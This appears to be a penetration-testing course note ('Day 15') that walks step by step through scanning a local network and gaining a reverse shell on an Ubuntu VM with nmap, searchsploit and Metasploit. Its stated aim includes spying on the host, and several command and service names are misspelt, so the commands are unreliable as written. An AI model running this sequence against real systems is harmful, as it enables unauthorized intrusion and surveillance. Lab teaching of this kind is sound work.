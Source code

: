# ♦ Day 15
</br>
</br>

## ◙ ***Getting into an UBUNTU***
 </br>
 
# ♦ Getting into an UBUNTU : 
   ⇨ In this session we will be learning how to get into an ubuntu device and can collect data or spying onto the host pc, for this we will be using an Ubuntu Virtual device in our local nettwork(Virtual Machine). 
   </br>
   </br>
### ◙ Step-By-Step Guide 

### • 1. Reconnaissance : First of all we will be checking our local network if there arne any other devices connected or not (Note: for this to work in VM make sure both the devices are in same network settings preferrably "NAT Network" </br>
For scanning our local network we will be using ***arp scan*** by using following commands:

    sudo arp-scan -l -I eth1

After this we have to check which one of the device is tht we are looking for so for that we will use ***nmap*** to identify operating systems of all the devices individaually by using:

    sudo nmap -O >Ip add<

### • 2. Search For Vulnerability : Now we will be searching for the vulnerabilities of the ip we confirmed by doing nmap scans now for vulnerability searching we will be using the following command

    namp -Pn -sV --script vuln -oN vuln-ubuntu-nmap.txt >IP add<

As we can see from above report tht the version tht is being used is by the name "PRODTPD 1.3.3c".


### • 3. Now we would like to search for some exploits taht we can try, for that we will be using ***"Searchsploit"*** to search for exploits :

    searchexploit PRODTPD 1.3.3c

As we acan see there are 2 exploits for this version, and we will be using the one which can be done (Metasploit) cuz it most efficient and easy to do


### • 4. METASPLOIT : The Metasploit Project is a computer security project that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. </br>

• Now to acess metasploit we have to type a command 

    msfconsole

• After getting into msfconsole we have to search for the exploits ***"PRODTPD 1.3.3c"***

     search PRODTPD 1.3.3c 

• Now select the 1st one with using command ***"use 0"***

    use 0

### • 5. Setting up Msfconsole : 

• Now we have to set up our msfconsole by seeing all the options that wre neede to be filled by watching them carefully ***"Show options"***

    show options

• As we can see there is no LHOST is in this payload instead it is asking for CHOST which we dont know so we will be changing the payload by using the given command
     
    show payloads
    set  cmd/unix/reverse_perl
    
now as we can see above we have to fill LPORT, LHOST, RHOSTS & RPORT by using :

    set RHOSTS >The Recivers Ip<
    set LHOST >The Linux Ip<
    set RPORT >The Reciving Port<
    set LPORT >The Listening Port<

⇨   After setting all tht we just simply have to Use ***"exploit"*** command

     exploit

• Now we have successfully gained the access of the UBUNTU Machine, now we can use ***"help"*** command to get all the details of what can we do in the system

